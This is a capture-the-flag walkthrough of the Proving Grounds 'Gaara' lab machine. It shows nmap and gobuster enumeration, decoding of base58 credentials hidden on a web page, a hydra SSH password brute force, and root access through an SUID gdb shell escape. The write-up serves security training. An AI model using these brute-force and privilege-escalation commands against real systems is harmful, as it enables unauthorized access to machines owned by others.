




# Gaara
**Date:** May 20th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.107.142`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.107.142 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 137]
/Cryoserver           (Status: 200) [Size: 327]
```

<br>

## Website Digging

Visiting the main page:


Checking out **/Cryoserver** shows us what appears to be a blank page with nothing on it, but if you scroll down you'll see some text. You can also find this by **inspecting the page**:



**/Temari** explains the Gaara character with a page full of text:



**/Kazekage** and **/iamGaara** show the same thing, though on **iamGaara** it's slightly different with some spaces removed and other minor formatting changes.

I ran additional **gobuster** scans against all 3 of these locations and did not find anything new.

Not having much else to go on I decide to read the giant wall of text on the webpage starting with **/iamGaara** since it was slightly different from the other two. I eventually find this hidden in the text:

```
enraged Gaara f1MgN9mTf9SNbzRygcU into breaking Lee's arm and leg
```

Everything else are actual words so let's take a closer look at this string of characters. I run it through **cyberchef** and use the **magic formula**, which doesn't decode anything. I try some of the other basexx that the magic formula didn't try and it turns out to be **base58**:

```
gaara:ismyname
```

Looks like a username and password combo. I try and **SSH** over but the credentials did not work, so I guess we'll try brute forcing at this point. It finds the password for us after a couple of minutes:

`hydra -l gaara -P rockyou.txt 192.168.107.142 ssh`

```
[22][ssh] host: 192.168.107.142   login: gaara   password: <REDACTED>
```

<br>

## System Access

Having found the actual password I SSH over:

`ssh gaara@192.168.107.142`

```
gaara@192.168.107.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$
```

<br>

## System Enumeration

Waiting for us in our home directory is a file called **local.txt** that gives us our first flag:

`wc -c local.txt`

```
33 local.txt
```

`sudo -l` doesn't allow us to run anything as root.

Looking in **/etc/passwd** shows us that the only user with a shell other than root is the one we're already on:

```
gaara:x:1001:1001:,,,:/home/gaara:/bin/bash
```

<br>

## Root

`find / -perm /4000 2>/dev/null` shows us that the **gdb** command has an **SUID** bit set on it, which is out of place. Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/gdb/#suid) shows us we can run the following to get root:



Running the command:

`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`

```
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
# hostname
Gaara
```

Changing over to **/root** shows us our final flag **proof.txt**:

`wc -c /root/proof.txt`

```
33 proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Manual investigation of a website to find **hidden base58 encoded text**
- **Decoding that hidden text** and finding a username on the system
- Searching for **SUID** files and seeing that **gdb** has it set, which allowed us to obtain **root**

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
